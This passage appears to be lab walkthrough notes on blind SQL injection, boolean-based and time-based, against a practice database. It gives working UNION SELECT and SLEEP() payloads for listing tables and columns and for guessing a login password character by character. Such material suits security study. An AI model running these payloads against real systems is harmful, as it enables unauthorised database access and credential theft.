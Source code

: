 admin123' UNION SELECT 1,2,3 FROM information\_schema.tables WHERE table\_schema = 'sqli\_three' and table\_name='users';--

* Now need to enumerate the column names in the users table to properly search it for login credentials.
* Using the payload below, search the columns table where the database is equal to sqli\_three, the table name is users, and the column name begins with the letter a.

admin123' UNION SELECT 1,2,3 FROM information\_schema.COLUMNS WHERE TABLE\_SCHEMA='sqli\_three' and TABLE\_NAME='users' and COLUMN\_NAME like 'a%';

* Cycle through letters, numbers and characters again until a match is found.
* As multiple results are being searched for, add each new column name to the payload when found to prevent discovering the same one again.
  * For example, once the column named id is found, append that to the original payload (as seen below).

admin123' UNION SELECT 1,2,3 FROM information\_schema.COLUMNS WHERE TABLE\_SCHEMA='sqli\_three' and TABLE\_NAME='users' and COLUMN\_NAME like 'a%' and COLUMN\_NAME !='id';

* Repeating this process three times will discover the columns id, username and password.
* This can use to query the users table for login credentials.
* Need to discover a valid username using the payload below:

admin123' UNION SELECT 1,2,3 from users where username like 'a%

* Cycling through the characters will confirm the existence of the username admin.
* Now concentrate on discovering the password.
* The payload below shows how to find the password:

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

* Cycling through all the characters will discover the password is 3845.

### **Blind SQL Injection - Time Based** <a href="#id-1h3dat8fuz0s" id="id-1h3dat8fuz0s"></a>

* Very similar to Boolean based as same requests are sent.
* No visual indicator of queries being wrong or right.
* Indicator of a correct query is based on the time the query takes to complete.
* Time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement.
* SLEEP() method will only ever get executed upon a successful UNION SELECT statement.
* Use the following query when trying to establish the number of columns in a table:

admin123' UNION SELECT SLEEP(5);--

* Query was unsuccessful if there was no pause in the response time.
* Add another column and try again:

admin123' UNION SELECT SLEEP(5),2;--

* This payload produces a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.
* Repeat the enumeration process from the Boolean based SQL Injection, adding the SLEEP() method into the UNION SELECT statement.
  * E.g. to find the table name the query would be: referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
